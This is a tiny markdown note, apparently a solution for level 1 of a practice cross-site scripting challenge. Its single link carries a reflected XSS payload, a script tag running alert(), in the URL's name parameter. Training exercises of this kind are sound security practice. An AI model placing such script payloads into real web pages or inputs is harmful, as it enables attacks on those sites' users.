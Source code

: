 # XSS Level 1
[<https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E>](http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>)
